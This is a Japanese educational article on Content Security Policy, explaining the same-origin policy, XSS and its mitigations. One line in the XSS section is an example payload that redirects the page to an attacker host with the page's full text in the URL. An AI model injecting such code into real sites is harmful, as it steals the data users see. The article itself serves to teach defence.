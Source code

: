 # はじめに
&emsp;本記事ではCSP(Content Security Policy)について、基礎的な概念やその成り立ちについて、学術的な視点及び実際的な視点の双方から説明します。加えて、CSPの活用方法や、CSPをバイパスするための攻撃のテクニック、今後の展望といったトピックについても説明します。

# Webセキュリティの基礎
&emsp;CSPについて説明する前に、まずはWebセキュリティの基礎について簡単に説明します(特にクライアントサイドのWebセキュリティに焦点を当てます)。

## SOP / Same-Origin Policy
&emsp;Web上では無限大とも言える情報が公開されています。そのような情報の中には、無差別に公開しても良い情報がある一方で、第三者に勝手に読み取られると困る情報もあります。そのため、もしWebページ間において、何らかのアクセス制限のような仕組みがなければ、攻撃者は目的とするデータへのリクエストを発生させるWebページへとターゲットを誘導するだけで、そのデータを取得することができてしまいます。

&emsp;そのような事態を防ぐために、Webページ間のアクセスを制限するための仕組みであるSOP(Same-Origin Policy)が存在します。SOPでは、Originという単位に基づいてアクセスの可否を決定します。ここでOriginとは、以下の3つの値のタプルのことを言います。

- Scheme (e.g. http, https, ftp, etc.)
- Host (e.g. example.com)
- Port (e.g. 80, 443, 20, etc.)

&emsp;あるWebページとあるWebページのOriginが一致している場合はデータの読み込みや書き込みが全面的に許可される一方で、Originが異なる場合はある程度制限されることになります。

&emsp;まとめると、SOPによってリソースの論理的な分離が行われることで、「攻撃者によって任意のWebページのデータが読み取られてしまう」といった事態の発生が防がれています。

## XSS / Cross-Site Scripting
&emsp;前述のSOPをバイパスするためには、攻撃者が目的とする処理を行うようなコンテンツ(i.e. JavaScript)を特定のOrigin上に何とかして挿入する必要があります。そうすることで、SOPによる制約を受けることなく、自由にデータを読み出したり、書き込んだりすることができるからです。

&emsp;例えば、あるWebページに対して任意のJavaScriptの挿入が可能である場合、以下のようなJavaScriptコードを挿入することでそのWebページ全体のデータを得ることができます。

```javascript
window.location.href = `http://[attacker's host]/?dom=${document.body.innerText}`
```

&emsp;このような、あるWebページが任意のJavaScriptの挿入を許してしまっているような場合、そのWebページにはXSS(Cross-Site Scripting)脆弱性が存在するといいます。

## XSSへの対策
&emsp;XSS脆弱性への対策として、主に以下のような手法が存在します。

- 入力値の検査(e.g. 不正な文字が入力値に含まれている場合には拒否する。)
- 出力時のエスケープ

&emsp;もし、これらの対策が完璧に行われているのだとすれば、XSS脆弱性は発生しないでしょう。しかしながら、現実にはXSS脆弱性に起因する攻撃が多数発生しています。

&emsp;その証拠として、資料[1]では、多種多様な業界においてXSS脆弱性の占める割合が非常に高いことが示されています。また、OWASPから「最も重大なウェブアプリケーションリスクトップ10」として発表されるOWASP Top 10[2]においては、2013年度版と2017年度版の双方においてXSS脆弱性がランクインしています。

&emsp;では、どのような対策を行えば良いのでしょうか。

&emsp;ここで、XSS脆弱性の原因について改めて考察してみます。XSS脆弱性が発生する元々の原因は、開発者が認識していないような不正なコンテンツが正当なコンテンツの中に挿入されてしまうことでした。では、ここで以下のように考えることはできないでしょうか。

> 開発者は、どのコンテンツが正当なものであるか、あらかじめある程度は把握できるはずである。であれば、開発者が意図しているコンテンツに限って読み込みや実行が許可されるような仕組みがあれば良いのではないか。
